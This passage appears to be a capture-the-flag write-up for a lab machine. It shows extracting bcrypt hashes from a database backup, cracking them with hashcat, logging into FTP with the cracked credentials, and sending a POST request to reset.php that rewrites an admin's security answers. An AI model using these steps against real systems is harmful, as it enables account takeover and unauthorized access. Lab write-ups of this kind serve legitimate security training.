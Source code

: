 To crack the passwords, we prepare a file with `username:bcryptpassword` format:
```bash
sqlite3 site-backup-30-08-24/filedb.sqlite .dump | \
grep -i "^Insert into users values(" | \
awk -F, '{ 
    gsub(/'\''/, "", $2); 
    gsub(/'\''/, "", $3); 
    print $2 ":" $3 
}' | tee hashes.txt
```
```
admin_ef01cab31aa:$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC
eric:$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm
veronica:$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK
yuri:$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
john:$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6
ethan:$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC
```

We can crack the passwords using hashcat:
```bash
hashcat -m 3200 -a 0 -w 3 hashes.txt /usr/share/wordlists/rockyou.txt --username
```
```
eric:america
yuri:mustang
```

We can to log in to the ftp server using the credentials we found earlier:
```bash
lftp ftp://yuri:mustang@10.10.11.79
```

We mirror the entire FTP directory to our local machine:
```bash
mirror 
``` 

## User Exploitation


If we check the site backup, we can see that the endpoint `reset.php` is vulnerable to SSRF attack allowing us to change security answers of other users.
We will change the security answers of the user `admin_ef01cab31aa` to login as this user:
```
POST /reset.php HTTP/1.1
Host: file.era.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://file.era.htb
Connection: close
Referer: http://file.era.htb/reset.php
Cookie: PHPSESSID=vo9v37jm4rtn5fujk0pn6cqq4s
Upgrade-Insecure-Requests: 1

username=admin_ef01cab31aa&new_answer1=test&new_answer2=test&new_answer3=test
```

